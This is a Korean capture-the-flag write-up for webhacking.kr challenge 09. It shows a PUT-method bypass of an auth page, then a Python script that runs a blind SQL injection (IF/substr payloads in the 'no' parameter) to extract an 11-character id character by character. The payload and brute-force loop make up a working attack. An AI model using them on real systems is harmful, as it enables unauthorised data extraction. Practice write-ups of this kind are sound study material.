

================================================================================================================
[webhacking.kr] 09
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="put_data: {no=IF((substr(id,%d,1)in(%s)),3,0)}",arrowhead="normal"];
        step3 -> step2[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 최초 접속 시 다음과 같은 인증 페이지가 뜬다.

- 해당 인증 페이지시 다른 메소드로 접속해본다.

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/web/web-09/"
    cookies = {
        "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6"
    }
    r = requests.put(url, cookies=cookies, verify=False)

    print r.content

- 정상적으로 페이지가 출력된다.
- 3개의 페이지가 href 되어 있는데 어떤 내용이 있는지 확인해본다.
- no=1일 경우 페이지

.. code-block:: html

    Apple<form method=get action=index.php>

- no=2일 경우 페이지

.. code-block:: html

    Banana<form method=get action=index.php>

- no=3일 경우 페이지

.. code-block:: html

    <b>Secret</b>  hint : length = 11 column : id,no

- 길이: 11
- 컬럼명: id, no

|

- 해당 문제의 페이지는 no를 통해 페이지가 리다이렉트되기 때문에, 다음과 같은 쿼리문으로 이루어져 있을 것이다.

.. code-block:: sql

    SELECT * FROM tb_name WHERE 
    no=$_GET["no"]

|

if
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    pw =""
    for i in range(1,12):
        for j in range(33,126):
            cookie = {
                "PHPSESSID":"9johqp6c81c5hf11lkomnghhn6",
            }
            url = "http://webhacking.kr/challenge/web/web-09/?no=IF((substr(id,%d,1)in(%s)),3,0)" % (i,str(hex(j)))
            r = requests.put(url, cookies=cookie, verify=False)
            q = r.content
            if "Secret" in q:
                pw += chr(j)
                print pw
                break

    print pw

